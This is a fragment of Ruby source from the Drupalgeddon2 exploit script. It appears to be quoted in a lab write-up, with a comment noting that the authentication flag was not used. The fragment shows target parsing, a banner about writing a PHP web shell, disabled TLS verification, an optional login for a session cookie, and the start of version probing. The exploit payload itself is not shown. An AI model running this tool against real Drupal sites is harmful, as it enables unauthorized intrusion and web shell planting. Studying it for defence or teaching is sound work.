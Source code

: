 ```ruby
  exit
end

# 1st arg: http://<target-ip>:<listening-port>
$target = ARGV[0]
init_authentication() if is_arg(ARGV, '--authentication') # In our case, we didn't include "--authentication" flag.
$verbose = is_arg(ARGV, '--verbose')


# Check input for protocol
$target = "http://#{$target}" if not $target.start_with?("http")
# Check input for the end
$target += "/" if not $target.end_with?("/")


# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


# Banner
puts action("--==[::#Drupalggedon2::]==--")
puts "-"*80
puts info("Target : #{$target}")
puts info("Proxy  : #{$proxy_addr}:#{$proxy_port}") if $proxy_addr
puts info("Write? : Skipping writing PHP web shell") if not try_phpshell
puts "-"*80


# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


# Setup connection
uri = URI($target)
$http = Net::HTTP.new(uri.host, uri.port, $proxy_addr, $proxy_port)

# Use SSL/TLS if needed
if uri.scheme == "https"
  $http.use_ssl = true
  $http.verify_mode = OpenSSL::SSL::VERIFY_NONE
end

$session_cookie = ''
# If authentication required then login and get session cookie
if $uname
  $payload = $uname_field + '=' + $uname + '&' + $passwd_field + '=' + $passwd + $creds_suffix
  response = http_request($target + $login_path, 'post', $payload, $session_cookie)
  if (response.code == '200' or response.code == '303') and not response.body.empty? and response['set-cookie']
    $session_cookie = response['set-cookie'].split('; ')[0]
    puts success("Logged in - Session Cookie : #{$session_cookie}")
  end

end

# - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - - -


# Try and get version
$drupalverion = ""

# Possible URLs
url = [
  # --- changelog ---
```